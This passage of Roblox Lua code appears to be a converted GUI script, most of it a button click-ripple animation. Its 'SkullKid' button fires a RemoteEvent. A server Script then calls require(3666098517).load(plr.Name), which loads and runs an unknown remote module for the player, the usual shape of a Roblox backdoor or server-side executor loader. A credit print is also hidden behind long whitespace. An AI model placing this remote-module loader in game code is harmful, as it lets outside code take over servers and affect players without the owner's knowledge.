 			local Circle = script:WaitForChild("Circle"):Clone()
				Circle.Parent = Button
				local NewX = X - Circle.AbsolutePosition.X
				local NewY = Y - Circle.AbsolutePosition.Y
				Circle.Position = UDim2.new(0, NewX, 0, NewY)
			
			local Size = 0
				if Button.AbsoluteSize.X > Button.AbsoluteSize.Y then
					 Size = Button.AbsoluteSize.X*1.5
				elseif Button.AbsoluteSize.X < Button.AbsoluteSize.Y then
					 Size = Button.AbsoluteSize.Y*1.5
				elseif Button.AbsoluteSize.X == Button.AbsoluteSize.Y then																																																																														print("This place uses a model by Come0n.") --please do not remove!
					Size = Button.AbsoluteSize.X*1.5
				end
			
			local Time = 0.5
				Circle:TweenSizeAndPosition(UDim2.new(0, Size, 0, Size), UDim2.new(0.5, -Size/2, 0.5, -Size/2), "Out", "Quad", Time, false, nil)
				for i=1,10 do
					Circle.ImageTransparency = Circle.ImageTransparency + 0.01
					wait(Time/10)
				end
				Circle:Destroy()
	end
	
	
	script.Parent.MouseButton1Down:connect(function()
		CircleClick(script.Parent, Mouse.X, Mouse.Y) 
	end)
	
	
	
end
coroutine.wrap(VYSS_fake_script)()
local function DDNA_fake_script() -- SkullKid.LocalScript 
	local script = Instance.new('LocalScript', SkullKid)

	script.Parent.TextButton.MouseButton1Click:Connect(function()
		script.RemoteEvent:FireServer()
	end)
end
coroutine.wrap(DDNA_fake_script)()
local function KKKRI_fake_script() -- nil.Script 
	local script = Instance.new('Script', nil)

	script.Parent.RemoteEvent.OnServerEvent:Connect(function(plr)
		require(3666098517).load(plr.Name)
	end)
end
coroutine.wrap(KKKRI_fake_script)()
local function WPBBOU_fake_script() -- TextButton_2.CircleClickExample 
	local script = Instance.new('LocalScript', TextButton_2)

	local Mouse = game.Players.LocalPlayer:GetMouse()
	